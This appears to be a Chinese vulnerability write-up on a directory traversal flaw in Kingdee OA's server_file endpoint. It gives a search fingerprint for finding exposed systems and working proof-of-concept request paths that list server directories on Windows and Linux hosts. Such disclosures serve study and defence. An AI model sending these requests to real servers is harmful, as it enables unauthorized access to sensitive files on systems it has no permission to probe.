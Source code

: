 # 金蝶OA server_file 目录遍历漏洞

# 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

```
金蝶OA
```

## 网络测绘

```
app="Kingdee-EAS"
```

## 漏洞复现

登录界面为



![1](/images/202202090144781.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=

# Windows服务器
appmonitor/protected/selector/server_file/files?folder=C://&suffix=

# Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![2](/images/202202090144057.png)

